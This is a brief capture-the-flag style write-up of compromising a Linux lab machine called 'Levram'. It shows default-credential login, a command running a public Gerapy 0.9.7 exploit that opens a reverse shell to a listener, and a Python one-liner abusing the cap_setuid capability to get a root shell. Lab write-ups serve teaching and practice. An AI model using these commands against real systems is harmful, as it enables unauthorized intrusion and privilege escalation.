 # Levram (Linux)

## Initial foothold

- Accessed http://192.168.116.24:8000 with default credentials admin:admin.
- Used exploit `50640.py` targeting Gerapy 0.9.7.
- Created a project via the web interface at `/project`.
- Ran exploit command:
  ```bash
  python 50640.py -t 192.168.116.24 -p 8000 -L 192.168.45.166 -P 22
  ```

## Privilege Escalation

- Ran linpeas.sh and found `/usr/bin/python3.10` with `cap_setuid=ep` capability.
- Using resources like:
  - https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
  - https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html
- Executed:
  ```bash
  /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  ```

---


